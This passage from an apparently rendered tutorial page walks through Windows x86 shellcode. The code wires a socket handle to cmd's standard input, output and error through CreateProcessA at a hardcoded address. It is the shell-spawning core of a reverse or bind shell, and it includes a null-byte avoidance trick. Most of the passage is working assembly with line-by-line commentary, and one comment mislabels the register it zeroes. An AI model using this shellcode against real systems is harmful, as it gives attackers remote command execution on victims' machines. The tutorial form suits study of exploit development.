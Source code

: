 ; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; <b>hStdError</b> = our socket handler
push esi                ; <b>hStdOutput</b> = our socket handler
push esi                ; <b>hStdInput</b> = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName

mov ebx,0x7594f960      ; <b>Change</b>! Call CreateProcessA()
call ebx                ; Call CreateProcessA()
</pre>
1) We first allocate a `lpCommandLine` string on the stack.
   ```
   mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                           ; injecting null bytes.
   shr ebx,0x8             ; Make EBX = 'cmd\x00'
   push ebx                ; Push application name
   mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                           ; ('lpCommandLine' parameter)
   ```
2) Allocate `_STARTUPINFOA` structure on the stack.
   ```
   ; Now fill the `_STARTUPINFOA` structure
   xor edx,edx             ; Zero out EBX
   push esi                ; hStdError = our socket handler
   push esi                ; hStdOutput = our socket handler
   push esi                ; hStdInput = our socket handler
   ```